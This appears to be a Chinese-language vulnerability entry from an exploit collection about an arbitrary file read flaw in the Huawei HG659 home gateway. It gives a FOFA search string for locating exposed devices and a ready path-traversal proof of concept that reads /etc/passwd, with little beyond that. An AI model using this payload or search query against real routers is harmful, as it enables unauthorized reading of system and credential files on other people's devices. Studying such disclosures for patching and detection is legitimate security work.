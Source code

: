 ```yaml
---
title: Huawei HG659 lib 任意文件读取漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 华为
---
```


# Huawei HG659 lib 任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

> [!NOTE]
>
> Huawei HG659 

## FOFA

> [!NOTE]
>
> app="HUAWEI-Home-Gateway-HG659"

## 漏洞复现

登录页面如下

![image-20210615141459903](/img/20210924020226248687.png)

POC如下

```
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

![image-20210615141751249](/img/20210924020226495764.png)